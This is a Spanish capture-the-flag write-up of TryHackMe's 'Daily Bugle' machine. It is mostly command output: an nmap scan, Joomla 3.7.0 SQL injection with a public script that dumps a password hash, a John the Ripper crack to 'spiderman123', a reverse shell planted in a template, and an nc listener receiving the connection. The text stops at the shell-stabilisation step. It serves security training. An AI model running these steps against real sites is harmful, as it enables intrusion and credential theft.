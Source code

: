 # Daily Bugle

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/682e0484-03da-44d6-85ec-26971c4c2168)

***
- Source: https://tryhackme.com/room/dailybugle
- OS: Linux
- Dificultad: Hard
- IP: No estática
- Temas: ``CMS``, ``Joomla``, `Sqli`, `Linux PrivEsc`.
***

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Dayly_Bugle]
└─$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.19.253
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-16 19:34 EST
NSE: Loaded 46 scripts for scanning.
Initiating SYN Stealth Scan at 19:34
Scanning 10.10.19.253 [65535 ports]
Discovered open port 3306/tcp on 10.10.19.253
Discovered open port 22/tcp on 10.10.19.253
Discovered open port 80/tcp on 10.10.19.253
Completed SYN Stealth Scan at 19:35, 24.95s elapsed (65535 total ports)
Initiating Service scan at 19:35
Scanning 3 services on 10.10.19.253
Completed Service scan at 19:35, 11.83s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.19.253.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 19:35
Completed NSE at 19:35, 1.03s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 19:35
Completed NSE at 19:35, 1.18s elapsed
Nmap scan report for 10.10.19.253
Host is up, received user-set (0.51s latency).
Scanned at 2024-02-16 19:35:00 EST for 39s
Not shown: 39102 filtered tcp ports (no-response), 26430 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3306/tcp open  mysql   syn-ack ttl 61 MariaDB (unauthorized)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.37 seconds
           Raw packets sent: 121003 (5.324MB) | Rcvd: 27783 (1.111MB)

~~~

- Si vamos a la ruta `http://10.10.19.253/administrator/manifests/files/joomla.xml` podemos ver algunas rutas:

~~~xml
<fileset>
<files>
<folder>administrator</folder>
<folder>bin</folder>
<folder>cache</folder>
<folder>cli</folder>
<folder>components</folder>
<folder>images</folder>
<folder>includes</folder>
<folder>language</folder>
<folder>layouts</folder>
<folder>libraries</folder>
<folder>media</folder>
<folder>modules</folder>
<folder>plugins</folder>
<folder>templates</folder>
<folder>tmp</folder>
<file>htaccess.txt</file>
<file>web.config.txt</file>
<file>LICENSE.txt</file>
<file>README.txt</file>
<file>index.php</file>
</files>
</fileset>
~~~

- Por ahora enumeraremos solo la versión, pues no hay nada interesante más allá del login de administrador.
- Podemos encontrarla en `http://10.10.19.253/language/en-GB/en-GB.xml`:

~~~xml
<metafile version="3.7" client="site">
<name>English (en-GB)</name>
<version>3.7.0</version>
<creationDate>April 2017</creationDate>
<author>Joomla! Project</author>
<authorEmail>admin@joomla.org</authorEmail>
<authorUrl>www.joomla.org</authorUrl>
<copyright>
Copyright (C) 2005 - 2017 Open Source Matters. All rights reserved.
</copyright>
<license>
GNU General Public License version 2 or later; see LICENSE.txt
</license>
<description>en-GB site language</description>
<metadata>
<name>English (en-GB)</name>
<nativeName>English (United Kingdom)</nativeName>
<tag>en-GB</tag>
<rtl>0</rtl>
<locale>
en_GB.utf8, en_GB.UTF-8, en_GB, eng_GB, en, english, english-uk, uk, gbr, britain, england, great britain, uk, united kingdom, united-kingdom
</locale>
<firstDay>0</firstDay>
<weekEnd>0,6</weekEnd>
<calendar>gregorian</calendar>
</metadata>
<params/>
</metafile>
~~~


- Si filtramos por la versión en `searchsploit` podemos ver un exploit que sin duda luce prometedor:

~~~bash 
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Dayly_Bugle]
└─$ searchsploit joomla 3.7
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
Joomla! 3.7 - SQL Injection                | php/remote/44227.php
~~~

- El exploit nos dice que es posible realizar una inyección a la base de datos a través de la url `http://10.10.19.253/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1`
- Donde se nos permitirá añadir parámetros para obtener información de usuarios.
- La máquina nos invita a hacer el ataque con un exploit de ython, busqué y encontré este: https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py
- Ahora bien, nos arroja un hash que podemos romper:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Dayly_Bugle]
└─$ python3 joomblah.py http://10.10.19.253
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
~~~

- Lo guardamos y utilizamos ``john``, tardará aproximadamente 5 minutos:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Dayly_Bugle]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash                         
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (jonah)     
1g 0:00:06:05 DONE (2024-02-16 22:01) 0.002737g/s 128.2p/s 128.2c/s 128.2C/s tiffany3..spider123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~

- Iniciamos sesión y nos dirigimos a `Templates ---> error.php`

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/22b9a417-5d00-46b3-a508-5eda7de69214)

- Añadimos una revshell ejecutada en php:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/ad109800-6157-4bfb-a833-9fa804df84af)


- Ahora solo debemos visitar `http://10.10.19.253/index.php/<>` y deberíamos entablar una conexión:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Dayly_Bugle]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.60.167] from (UNKNOWN) [10.10.19.253] 41870
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
~~~

- Realizamos un tratamiento de TTY:


